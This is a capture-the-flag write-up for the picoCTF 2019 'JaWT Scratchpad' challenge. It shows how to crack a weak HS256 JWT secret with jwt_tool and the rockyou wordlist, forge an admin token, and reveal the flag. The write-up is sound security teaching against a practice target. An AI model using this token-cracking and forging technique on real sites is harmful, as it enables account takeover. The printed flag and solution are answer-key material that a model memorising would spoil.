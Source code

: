 # JaWT Scratchpad - Points: 400

## Problem

> Check the admin scratchpad! ```https://2019shell1.picoctf.com/problem/32267/``` or http://2019shell1.picoctf.com:32267

## Hints

> What is that cookie?

> Have you heard of JWT?

## Overview

Let's connect to the provided website

Navigating to the vulnerable website, the first thing a norm would do is to check the source code. Unfortunately, there's nothing seems to be suspicious. However, ```JWT``` which stands for **JSON Web Tokens** and ```John``` which is referring to a really famous and common password cracker, **John The Ripper** are mentioned with the provided link for each.  

There's a box where you can actually enter your own chosen username. If we tried to login as ```admin```, we'll get an error like this
```html
<p style="color:red">
       YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
</p>
```
However, logging in as another user is allowed. I used ```ch3llist4``` as my username. Now we can start exploiting the cookie.

## Solutions

I decided to use the same [online extension](http://www.editthiscookie.com/) as I did on **Open-to-admins** challenge for checking and editing the site cookies.

As expected, I saw a cookie named ```jwt``` with the value ```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8```. This should be the JSON token that got already encoded using ```base64```

Use this [website](https://jwt.io/) which is provided as a hint in their source code. We can extract the information out of it.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "ch3llist4"
}
```
As I read on the [wiki](https://en.wikipedia.org/wiki/JSON_Web_Token)

The signature part which is the last part after ```.``` is calculated by encoding the header and payload using [Base64url Encoding](https://en.wikipedia.org/wiki/Base64#URL_applications) and concatenating the two together with a period separator. That string is then run through the cryptographic algorithm specified in the header...
```
HMAC-SHA256(
 base64urlEncoding(header) + '.' +
 base64urlEncoding(payload),
 secret
)
```
So far as i know, we need to somehow get their secret code used in the signature part to generate a new JWT and then we can use that to exploit the website.

I actually didn't use John as the John process for bruteforcing JWT specifically is a little bit more complicated. Instead, I used this [tool](https://github.com/ticarpi/jwt_tool) 

```
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2gzbGxpc3Q0In0.WiG-XOhFqsulY9c7-ZSNMa8nI-AcBgKsRkY678wYcO8 ../JohnTheRipper/run/rockyou.txt

,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
----''----''----''----''----''----''----''----''----''----'
     ,--.,--.   ,--.,--------.,--------.             ,--.
     |  ||  |   |  |'--.  .--''--.  .--',---.  ,---. |  |
,--. |  ||  |.'.|  |   |  |      |  |  | .-. || .-. ||  |
|  '-'  /|   ,'.   |   |  |,----.|  |  ' '-' '' '-' '|  |
 `-----' '--'   '--'   `--''----'`--'   `---'  `---' `--'
,----.,----.,----.,----.,----.,----.,----.,----.,----.,----.
'----''----''----''----''----''----''----''----''----''----'

Token header values:
[+] typ = JWT
[+] alg = HS256

Token payload values:
[+] user = ch3llist4

######################################################
# Options:                                           #
# 1: Check CVE-2015-2951 - alg=None vulnerability    #
# 2: Check for Public Key bypass in RSA mode         #
# 3: Check signature against a key                   #
# 4: Check signature against a key file ("kid")      #
# 5: Crack signature with supplied dictionary file   #
# 6: Tamper with payload data (key required to sign) #
# 0: Quit                                            #
######################################################

Please make a selection (1-6)
> 5

Loading key dictionary...
File loaded: ../JohnTheRipper/run/rockyou.txt
Testing 14344380 passwords...
[+] ilovepico is the CORRECT key!
```
Now we know that the secret used in the signature part is ```ilovepico```. Let's use it to generate the new token using the previous website. Now we change our usernames to ```admin``` for initializing the unauthorized access.

This token is perfect for exploiting now
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Change the cookie value to the token and we're good. All we need to do left is reload the page and enjoy the flag..

flag:
```
picoCTF{jawt_was_just_what_you_thought_6ba7694bcc36bdd4fdaf010b2ec1c2c3}
```
